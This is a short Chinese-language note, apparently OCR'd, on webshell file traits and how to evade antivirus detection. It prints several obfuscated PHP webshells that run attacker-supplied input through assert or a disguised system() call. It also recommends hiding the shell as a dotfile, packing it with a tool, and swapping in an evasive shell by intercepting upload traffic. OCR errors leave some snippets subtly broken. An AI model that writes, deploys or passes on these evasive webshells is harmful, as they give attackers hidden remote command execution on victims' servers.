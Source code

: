 

## **webshell文件特征**

主要是正常匹配一些敏感函数，和特征代码。

木马文件上传防静态查杀检测，做混淆：

```
<?php
  $a='b';
  $b=$GET['e'];
  $$a(SPOST['x']);
?>
//寻找绕过

<?php
  $a='b';
  $b='assert‘;
  $$a (base64_decode($_POST['x']);
  ?>


//
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX\[0];
($kDxfM->gHht)($XnEGfa);
```

木马文件名隐藏：
.shell.php在Linux中直接看隐藏看不到。

## **免杀方法**

<https://www.sqlsec.com/2020/07/shell.html>

Shielden进行webshell加壳。

弱鸡webshell免杀工具。

可以参考文章：<https://blog.csdn.net/guanjian_ci/article/details/139295929>

^
在一些工具一键上传文件马的时候可以抓包拦截，替换成免杀马。
